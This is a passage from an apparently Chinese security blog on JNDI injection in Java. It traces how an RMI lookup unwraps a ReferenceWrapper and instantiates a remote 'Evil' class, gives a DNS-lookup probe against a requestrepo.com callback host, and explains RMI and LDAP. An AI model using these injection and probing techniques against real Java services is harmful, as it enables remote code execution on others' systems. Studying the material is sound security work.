                throw (NamingException)wrapRemoteException(var5).fillInStackTrace();
            }

            return this.decodeObject(var2, var1.getPrefix(1));
        }
    }
```

`this.registry.lookup(var1.get(0));`JRMP 开始工作，向恶意服务器要数据，在正常的 RMI 开发中，这里拿到的是远程对象的 Stub，在 JNDI 注入中，因为 Reference 类本身没有实现 Remote 接口，不能直接绑定到 RMI 注册表，所以攻击者必须用`ReferenceWrapper`把`Reference`包裹起来，所以 `var2` 实际上是一个 `ReferenceWrapper_Stub`。

跟进

```java
private Object decodeObject(Remote var1, Name var2) throws NamingException {
    try {
        Object var3 = var1 instanceof RemoteReference ? ((RemoteReference)var1).getReference() : var1;
        return NamingManager.getObjectInstance(var3, var2, this, this.environment);
    } catch (NamingException var5) {
        throw var5;
    } catch (RemoteException var6) {
        throw (NamingException)wrapRemoteException(var6).fillInStackTrace();
    } catch (Exception var7) {
        NamingException var4 = new NamingException();
        var4.setRootCause(var7);
        throw var4;
    }
}
```

var1 是从 RMI 注册中心拿到的原始对象 (通常是 Stub)，这里的判断逻辑很有趣，如果 var1 实现了 RemoteReference 接口 (比如 ReferenceWrapper)，说明它是个包装货，那就调用`getReference()`把它里面的 Reference 对象取出来，如果不是包装货，那就直接用 var1

后面就和 LDAP 一致了，完整调用栈

```java
at Evil.<init>(Evil.java:1)
at sun.reflect.NativeConstructorAccessorImpl.newInstance0(NativeConstructorAccessorImpl.java:-1)
at sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)
at sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
at java.lang.reflect.Constructor.newInstance(Constructor.java:422)
at java.lang.Class.newInstance(Class.java:442)
at javax.naming.spi.NamingManager.getObjectFactoryFromReference(NamingManager.java:163)
at javax.naming.spi.NamingManager.getObjectInstance(NamingManager.java:319)
at com.sun.jndi.rmi.registry.RegistryContext.decodeObject(RegistryContext.java:464)
at com.sun.jndi.rmi.registry.RegistryContext.lookup(RegistryContext.java:124)
at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:205)
at javax.naming.InitialContext.lookup(InitialContext.java:417)
at org.example.Test3.main(Test3.java:9)
```

### dns

```java
package org.example;

import javax.naming.InitialContext;

public class Test4 {
    public static void main(String[] args) throws Exception {
        String uri="dns://5fpy0yrg.requestrepo.com/";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(uri);
    }
}
```


除了探测好像并没什么作用，除非 log4j2 那种会解析的服务

## **原本的模样**

看完这样简单的注入流程之后，我在想，这两玩意到底是什么，底层协议又是什么呢😯

其实两张图就能明确知道



rmi 像一个动态服务



 LDAP 像一个静态目录

ps：我暂时不想弄这些协议的原理，对我来说太过复杂，所以就了解下概念吧


### rmi

RMI (Remote Method Invocation) 是 Java 原生的分布式对象通信机制。它的目标是让客户端调用远程服务器上的对象方法，就像调用本地 JVM 里的对象一样自然。

它屏蔽了底层的 TCP 连接、字节流传输等细节，通过 **Stub (存根)** 和 **Skeleton (骨架)** 两个代理组件，实现了跨 JVM 的透明调用。

在 JNDI 注入中，我们利用 RMI 主要是看中了它的两个特性：

1. 注册中心 (Registry)： RMI 有一个默认端口 `1099` 的注册中心。客户端通过 `lookup("Name")` 去查找服务，这正是 JNDI `InitialContext.lookup()` 的底层行为之一。
2. 序列化传输 (Serialization)： 这是 RMI 的心脏，也是它的阿喀琉斯之踵。RMI 协议（JRMP）在传递参数和返回值时，完全依赖 Java 原生序列化。

正常情况：传递一个 `String` 或自定义对象

攻击情况：如果服务端（或客户端）在反序列化过程中，类路径下存在恶意利用链（如 CommonsCollections），攻击者就可以通过 RMI 协议发送恶意序列化数据，直接 RCE

https://baozongwi.xyz/p/java-rmi/ 之前我阅读 P 牛的文章写过这样的记录文


### ldap

`LDAP`代表轻型目录访问协议(Lightweight Directory Access Protocol)。顾名思义，它是用于访问目录服务的轻量级协议，特别是基于X.500协议的目录服务。LDAP运行于TCP/IP连接上或其他面向传输服务的连接上。LDAP是IETF标准跟踪协议，并且在`“Lightweight Directory Access Protocol (LDAP) Technical Specification Road Map”`RFC4510中进行了指定。

目录是专门为搜索和浏览而设计的专用数据库，支持基本的查找和更新功能。

提供目录服务的方式有很多，不同的方法允许将不同类型的信息存储在目录中，对如何引用，查询和更新该信息，如何防止未经授权的访问等提出不同的要求(这些由LDAP定义)。一些目录服务是本地的，提供本地服务；一些目录服务是全球性的，向更广泛的环境（例如，整个Internet）提供服务。全局服务通常是分布式的，这意味着它们包含的数据分布在许多机器上，所有这些机器协作以提供目录服务。通常，全局服务定义统一的名称空间，无论在何处访问，都可以提供相同的数据视图。

在网上看到两个 demo 来更方便理解 LDAP 这种目录





很明显我们可以知道这是树状图，那随着公司内部各种开源平台越来越多(例如：gitlab、Jenkins等等)，账号维护变成一个繁琐麻烦的事情，需要有一个统一的账号维护平台，一个人只需一个账号，在公司内部平台通用，而大多数开源平台都支持LDAP，因此只要搭建好LDAP服务，并跟钉钉之类的平台实现账号同步，即可实现统一账号管理。


> https://www.javasec.org/javase/JNDI/
>
> https://xz.aliyun.com/news/11723
>
> https://paper.seebug.org/1091/#jndi
